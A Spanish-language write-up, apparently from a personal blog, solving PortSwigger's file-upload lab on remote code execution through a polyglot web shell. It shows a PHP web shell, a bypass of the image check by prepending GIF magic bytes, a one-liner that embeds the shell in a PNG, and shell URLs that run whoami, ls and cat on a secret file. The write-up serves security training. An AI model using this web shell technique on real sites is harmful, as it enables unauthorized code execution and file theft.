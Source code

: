 ```yaml
---
title: File Upload Vulnerabilities Lab 6
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Remote code execution via polyglot web shell upload
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-6/Portswigger.png
---
```


## Skills

- Remote code execution via polyglot web shell upload

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, aunque `verifica` el `contenido` del `archivo` para `confirmar` que es una imagen `genuina`, aún es posible cargar y `ejecutar código` del `lado` del `servidor`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_5.png)

`Subimos` el `archivo` nuevamente pero `capturamos` la `petición` con `Burspuite`, he probado a subir un archivo con `extensión .png` y con `Content-type: image:/png` pero nos sigue dando el mismo `error`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_6.png)

Esto puede ser debido a los `magic bytes` que tienen las imágenes [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures), en este caso he añadido `GIF8;` lo cual me ha permitido `bypassear` la `validación`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_7.png)

Otra forma de hacerlo sería `descargar` una `imagen` e `introducir` la `web shell` dentro. Al `capturar` la `petición` con `Burpsuite` se cambiaría la `extensión` de archivo a `.php` y se `enviaría`

```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_8.png)

Si accedemos a `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que hemos logrado un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_10.png)

`Obtenemos` el `contenido` del archivo secret `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_12.png)
